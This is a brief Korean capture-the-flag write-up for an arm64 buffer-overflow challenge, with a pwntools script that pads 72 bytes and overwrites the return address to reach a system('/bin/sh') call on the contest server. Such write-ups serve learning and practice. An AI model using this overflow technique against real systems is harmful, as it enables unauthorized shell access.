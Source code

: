 ![/assets/2021-01-01/202101_XMAS56.png](/assets/2021-01-01/202101_XMAS56.png)

arm64 아키텍처 바이너리에서 발생하는 간단한 bof 문제로 0x040069C 주소로 점프하면 `system("/bin/sh");`를 호출하는 코드가 존재한다.

```python
from pwn import *

#r = process("./baby_RudOlPh")
r = remote("host4.dreamhack.games", 17388)
payload = b""
payload += b"A" * 72
payload += p64(0x040069C)
r.send(payload)
r.interactive()
```

로컬에서 쉘 획득이 가능한 것을 확인하고 대회 서버에서도 마찬가지로 진행하여 flag를 획득하였다.
